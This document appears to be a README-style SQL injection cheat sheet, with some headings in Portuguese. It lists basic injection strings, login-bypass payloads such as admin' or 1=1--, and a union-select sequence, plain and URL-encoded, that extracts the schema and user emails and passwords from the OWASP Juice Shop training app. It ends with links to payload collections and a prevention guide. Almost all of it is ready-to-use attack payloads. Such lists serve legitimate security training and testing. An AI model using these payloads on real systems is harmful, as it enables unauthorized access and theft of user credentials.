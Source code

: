 # SQL Inject Basic Payloads
```
'
' --
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --

1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

Comentarios:

#
/*
-- -
;%00
`
```
# SQL Inject Bypass de Auth
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
admin' or 1=1
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```
# SQL Inject Extract Schema Database Juice-Shop

')

')) --

')) order by 9 -- 

')) union all select 1,2,3,4,5,6,7,8,9 -- 

')) union all select 1,2,3,sql,5,6,7,8,9 from sqlite_master -- 

')) union all select 1,email,username,4,password,6,7,8,9 from Users -- 

Link

https://www.urlencoder.org

```
')

'))%20--%20

'))%20order%20by%209%20--%20

'))%20union%20all%20select%201,2,3,4,5,6,7,8,9%20--%20

'))%20union%20all%20select%201,2,3,sql,5,6,7,8,9%20from%20sqlite_master%20--%20

'))%20union%20all%20select%201,email,username,4,password,6,7,8,9%20from%20Users%20--%20
```
## Links

https://www.w3schools.com/sql/sql_injection.asp

https://github.com/gui1535/sql-injection-list

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
